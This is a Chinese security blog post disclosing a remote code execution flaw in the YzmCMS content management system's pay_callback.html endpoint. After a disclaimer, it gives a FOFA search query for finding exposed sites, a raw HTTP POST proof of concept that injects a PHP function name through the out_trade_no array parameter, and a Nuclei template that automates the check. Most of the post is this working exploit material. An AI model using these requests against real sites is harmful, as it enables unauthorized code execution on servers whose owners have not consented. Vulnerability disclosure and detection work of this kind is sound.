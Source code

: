 #  YzmCMS pay_callback.html RCE漏洞   
lcyunkong  贫僧法号云空   2024-05-05 12:01  
  
**0x00 阅读须知**  
  
****  
**免责声明：****本文提供的信息和方法仅供网络安全专业人员用于教学和研究目的，不得用于任何非法活动。读者若使用文章内容从事任何未授权的行为，需自行承担所有法律责任和后果。本公众号及作者对由此引起的任何直接或间接损失不负责任。请严格遵守相关法律法规。**  
###   
### 0x01 漏洞简介  
  
  
YzmCMS是一款轻量级、高效且开源的内容管理系统，它基于PHP+Mysql架构。这个系统被发现存在RCE漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSYIeA1vkZqfVvF0FPoWibFjzMdxXox765DCwo4VHlnNp0iawAjODY9DicHClOhiboRHn6zRGLjDLQoCSQ/640?wx_fmt=png&from=appmsg "")  
### 0x02 漏洞详情  
  
****  
**fofa：****app="yzmcms"**  
  
****  
**Poc：**  
```
POST /pay/index/pay_callback.html HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded

out_trade_no[0]=eq&out_trade_no[1]=1&out_trade_no[2]=phpinfo
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSYIeA1vkZqfVvF0FPoWibFjznW5ODKeibjJQVIibj6sTGbz9BCUibibpxEnnk0VnwBwq1tTwI8XXHezV9Q/640?wx_fmt=png&from=appmsg "")  
  
**0x03 Nuclie**  
  
```
id: yzmcms-pay_callback-rce

info:
  name: yzmcms-pay_callback-rce
  author: yunkong
  severity: high
  description: YzmCMS pay_callback.html RCE漏洞
  tags: yzmcms,rce

http:
  - raw:
      - |-
        POST /pay/index/pay_callback.html HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
        Accept-Encoding: gzip
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 60

        out_trade_no[0]=eq&out_trade_no[1]=1&out_trade_no[2]=phpinfo

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - phpinfo()
      - type: status
        status:
          - 200
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z8DAfzBiajSYIeA1vkZqfVvF0FPoWibFjzPCIJdt8VlmswBccRGiaBubdOibibx5w5d6bChgtHsjROE2QZsHE8hQUibQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
